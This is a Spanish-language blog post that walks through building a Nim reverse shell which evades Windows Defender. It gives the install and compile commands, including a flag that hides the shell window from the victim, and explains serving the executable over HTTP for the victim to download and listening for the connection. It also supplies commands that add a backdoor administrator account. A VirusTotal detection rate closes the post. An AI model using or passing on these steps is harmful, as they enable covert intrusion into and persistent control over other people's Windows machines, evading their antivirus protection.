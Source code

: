```yaml
---
layout: single
title: Bypass Windows Defender con Nim.
excerpt: "En este artículo, os muestro como es posible eludir el AV de Windows para obtener un shell inverso estable con nim."
date: 2024-04-21
classes: wide
categories:
  - Research
tags:
  - AV
  - Reverse Shell
  - Bypass
---
```


## ¿Qué es Nim?
Según el sitio web oficial de NIM, lo definen como un lenguaje de programación que tiene el poder de poder generar archivos ejecutables sin la necesidad de dependencias. Es utilizado para desarrollar aplicaciones para sistemas Windows, BSD, Linux, etc.

## Requisitos previos.
Como es de entender, se necesita tener instalado previamente nim y mingw. Esto se puede completar mediante la comanda:

```bash
Debian: sudo apt install nim mingw-w64
Fedora, CentOS, RHEL: sudo dnf install nim mingw64-gcc
Arch Linux: sudo pacman -S nim mingw-w64-gcc
OpenSUSE: sudo zypper install nim mingw64-gcc
```
Una vez acabada con la instalación debemos de clonar un repositorio de GitHub, el cual es el encargado de hacer nuestra tarea.
```
https://github.com/Sn1r/Nim-Reverse-Shell
```
## Tutorial.
Una vez clonado, debemos de editar las variables v1 y v2, reemplanzadolas por nuestra IP y el puerto que queramos usar.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/79c01442-3105-406a-bb5d-0c68c31c4aa9)

Una vez hecho, debemos de escribir este comando
```bash
nim c -d:mingw --app:gui --opt:speed -o:Prueba.exe rev_shell.nim
```
Desglosamiento:
* **c:** Indicamos al compilador que complile con c.
* **-d:mingw:** Indicamos al compilador que use MinGW como cadena de strings para compilar. Permite ejecutar código nativo de Windows en sistemas Unix y Linux.
* **-app:gui:** Mientras se ejecuta el shell inverso en la máquina víctima (siempre éticos) el proceso se crea en segundo plano y la CLI no se muestra al usuario.
* **--opt:Speed:** Optimizamos el código para agilizar la velocidad de ejecución.
  Bueno... y los otros parámetros ya se puede intuir...
  > ![imagen](https://github.com/cerodah/blog/assets/82907557/c255ed96-3723-47e1-a550-e3861268f1bc)

Activamos un servidor HTTP en nuestra máquina local para poder nosotros descargarlo desde la máquina víctima y a la vez nos ponemos en escucha por el puerto establecido anteriormente (mi caso el 1337, jejeje).

> ![imagen](https://github.com/cerodah/blog/assets/82907557/bce96b4c-5bc1-4bc8-92ca-16c9d09cc772)

El Windows Defender no me ha avisado absolutamente de nada, pero hablaremos de una cosa más adelante.
> ![imagen](https://github.com/cerodah/blog/assets/82907557/e0dd89b7-7d95-4ff3-b2d2-86dc90e7abdb)
Y finalmente entablamos una conexión con la máquina víctima :). Si da el caso en el que se nos cierra la shell debido a restricciones simplemente creamos un nuevo usuario rápidamente con privilegios de administrador y posteriormente iniciar sesión a través de RDP o SSH si estuvieran abiertos los puertos.
```bash
 net user cerodah cerodah123 /add
 net localgroup administrators cerodah /add
```

## No todo es lo que parece.
Si nuestra víctima tuviera otro AV, hay una pequeña parte que podría ser detectado. Nos podemos pasar este archivo a VirusTotal y vemos que 30 AV lo han detectado que es un 43,66%.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/f3fd88b2-4d3c-4cb6-9f8f-27e92aefe5a1)

Y con esto me despido...

```bash
Happy Hacking ^^
```
